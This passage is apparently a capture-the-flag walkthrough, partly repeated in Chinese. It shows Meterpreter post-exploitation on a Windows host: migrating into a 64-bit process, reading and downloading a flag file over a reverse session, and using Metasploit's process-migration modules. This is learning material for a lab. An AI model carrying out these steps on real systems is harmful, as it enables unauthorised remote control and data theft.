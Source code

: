 I can migrate to the process id 2212, which is a 64-bit process, which means our Meterpreter session will also be upgraded.

We now have a 64-bit Meterpreter session.

```
meterpreter > migrate 2212
meterpreter > sysinfo
Meterpreter : x64/windows
```

```
meterpreter > dir # ls
meterpreter > cd C:\\
meterpreter > dir
meterpreter > cat flag.txt
meterpreter > pwd # Print out our current working directory
meterpreter > download flag.txt
```

Put this in the background because we want to run some post exploitation modules.

```
meterpreter > sessions
```

```
Id      Name    Type                        Information                                         Connection
---     ----    ----                        -----------                                         ----------
1               meterpreter x64/windows     WIN-OMCNBKR66MN\Administrator @ WIN-OMCNBKR66MN     10.10.5.2:4444 -> 10.2.23.169:49246 (10.2.23.169)
```

Let's take a look at some of the post exploitation modules we can use.

So first and foremost, if you ever want to migrate or change the architecture of the Meterpreter payload.

[Architecture Migrate](https://www.rapid7.com/db/modules/post/windows/manage/archmigrate/)

This module checks if the meterpreter architecture is the same as the OS architecture and if it's incompatible it spawns a new process with the correct architecture and migrates into that process.

架构迁移

该模块检查 meterpreter 架构是否与 OS 架构相同，如果不兼容，它会生成一个具有正确架构的新进程并迁移到该进程中。

[Windows Manage Process Migration](https://www.rapid7.com/db/modules/post/windows/manage/migrate/)

This module will migrate a Meterpreter session from one process to another. A given process PID to migrate to or the module can spawn one and migrate to that newly spawned process.

Windows 管理进程迁移

该模块会将 Meterpreter 会话从一个进程迁移到另一个进程。要迁移到的给定进程 PID 或模块可以生成一个并迁移到新生成的进程。

In this case, this will allow us to create a new process and then migrate into it.

The reason that failed is because we already migrated our process.
